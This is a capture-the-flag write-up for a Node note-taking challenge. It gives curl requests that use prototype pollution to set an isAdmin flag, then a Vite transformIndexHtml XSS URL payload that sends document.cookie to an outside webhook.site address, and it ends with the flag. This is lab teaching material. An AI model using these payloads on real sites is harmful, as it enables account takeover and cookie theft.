 # Armoured-notes
## Description

Can you break my emerging note making app? It is still in beta. I have a feeling that it is not secure enough

Author - p1r4t3 aka me :)

## Writeup

1. On launching the challenge we land at a homepage which has fields for username,password and a note, seems like an ordinary xss?

![homepage](./assets/Screenshot_20231221_163148.png)

<hr>

2. On reading the source provided we get to know that only user with name 'admin' can login with his supersecure password which obviously we can not know as it is a environment variable. So what do we do ?

![auth](./assets/Screenshot_20231221_163342.png)

3. On looking closely we see that a dangerous duplicate function is being used which copies all properties of request body to another object without checking the keys.
This gives rise to a well known JS vulnerability "Prototype Pollution". Read more about it <a href="https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution">here</a>.

4. Also on reading the source further we find that before saving the note a special property 'isAdmin' is set to 'True' after which the note gets saved in the database. Maybe we will get the xss now?

```bash
curl -H "Content-Type: application/json" -X POST -d '{"uname":"admin","pass":"123","message":"asdf","__proto__": {"isAdmin": "true"}}' http://localhost:3000/create
```
![shell](./assets/Screenshot_20231221_164126.png)

5. After creating the note we get a specific note id and a link to access the note. Suppose we try our old xss payload and go to http://localhost:3000/post/<:id>

```bash
curl -H "Content-Type: application/json" -X POST -d '{"uname":"admin","pass":"123","message":"<script>alert()</script>","__proto__": {"isAdmin": "true"}}' http://localhost:3000/create
```
![shell](./assets/Screenshot_20231221_171320.png)

6. And... Tada nothings happens :)
![post](./assets/Screenshot_20231221_171638.png)

7. On looking further we find a escapeHtml function which doesnot allow any dangerous character to be inserted in the note. So now what?. We look into source futher and we see an interesting function "transformIndexHtml". On reading further about it we can find <a href="https://github.com/vitejs/vite/security/advisories/GHSA-92r3-m2mg-pj97?cve=title"> this </a> . :) Looks like we are done.

![vuln](./assets/Screenshot_20231221_164413.png)

![xss](./assets/Screenshot_20231221_164311.png)

8. Lets give this link to our admin bot :) and get the flag
```bash
http://localhost:3000/posts/657c83681afbebe2ea01432d/?%22%3E%3C/script%3E%3Cscript%3Efetch(`https://webhook.site/566eb0b9-796b-48d6-bcd5-fbb9584eee71?${document.cookie}`)%3C/script%3E
```
![bot](./assets/Screenshot_20231221_164823.png)
![flag](./assets/Screenshot_20231221_164951.png)

9. A ratelimiter was configured to block you from making more than 100 requests in 60 minutes (enough to annoy you :)

```bash
flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}
```